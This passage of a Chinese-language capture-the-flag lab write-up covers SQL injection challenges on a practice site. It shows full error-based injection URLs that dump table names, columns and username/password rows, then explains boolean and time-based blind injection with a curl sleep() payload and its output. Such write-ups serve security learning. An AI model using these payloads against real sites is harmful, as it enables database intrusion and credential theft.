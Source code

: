 ```
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1) ) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 1,1) ) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```
//爆字段 id, username, password
```
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=0x75736572 LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23

http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=0x75736572 LIMIT 1,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```
//读内容
```
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM user limit 0,1)))%23
```
//发现user表没有flag，读motto表
key#notfound!#

## 7.盲注

[盲注](https://www.jianshu.com/p/65f05e7cc957)分为两类：
　　　　1.布尔盲注　布尔很明显Ture跟Fales，也就是说它只会根据　　　　你的注入信息返回Ture跟Fales，也就没有了之前的报错信息。
　　　　2.时间盲注　界面返回值只有一种,true 无论输入任何值 返回情况都会按正常的来处理。加入特定的时间函数，通过查看web页面返回的时间差来判断注入的语句是否正确。

先暴库，暴库的长度
```
time curl "http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/blind.php?username=admin'and%20if(length(concat(database()))=5,sleep(2),1)--+"
<html>
    <head>
        <title>SQLi4_article</title>
    </head>
    <body> 
      <div>
            <h2> </h2>
          <div class="content">username:admin'and if(length(concat(database()))=5,sleep(2),1)-- <br>status:ok </div>
        </div>
                
    </body>
</html>


real	0m8.221s
user	0m0.052s
sys	0m0.164s
```
